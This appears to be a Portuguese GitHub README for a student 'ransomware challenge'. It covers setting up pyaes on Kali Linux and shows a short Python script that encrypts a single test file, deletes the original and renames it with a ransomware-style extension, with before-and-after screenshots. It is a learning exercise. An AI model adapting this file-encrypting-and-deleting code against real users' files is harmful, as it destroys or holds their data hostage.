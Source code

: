 # Desafio Ransomware

### Configurando as dependencia caso não tenha.

1. **Instalar python3-venv**: Instale a ferramenta para criar ambientes virtuais.
2. **Criar o ambiente virtual**: Use o comando `python3 -m venv myenv` para criar o ambiente.
3. **Ativar o ambiente virtual**: Execute `source myenv/bin/activate` para ativar o ambiente.
4. **Instalar pyaes**: Com o ambiente ativo, instale o pyaes com `pip install pyaes`.
5. **Verificar a instalação**: Entre no Python e use `import pyaes` para confirmar.
6. **Desativar o ambiente virtual**: Use `deactivate` para sair do ambiente.

Agora, você pode usar o pacote **pyaes** no seu projeto de maneira isolada e segura, sem afetar o sistema global do Kali Linux.


### Resutados

#### Sem Criptografia 

![nao_criptografada](https://github.com/user-attachments/assets/ab5bc588-2332-404e-a498-6975fc99c447)

##### codigos usado para encrypter.py


```python
import os
import pyaes

## abrir o arquivo a ser criptografado
file_name = "teste.txt"
file = open(file_name, "rb")
file_data = file.read()
file.close()

## remover o arquivo
os.remove(file_name)

## chave de criptografia
key = b"testeransomwares"
aes = pyaes.AESModeOfOperationCTR(key)

## criptografar o arquivo
crypto_data = aes.encrypt(file_data)

## salvar o arquivo criptografado
new_file = file_name + ".ransomwaretroll"
new_file = open(f'{new_file}','wb')
new_file.write(crypto_data)
new_file.close() ```


#### Criptografado 
![criptografada](https://github.com/user-attachments/assets/a67bdf49-dcf5-4262-99ea-2295575e61c7)
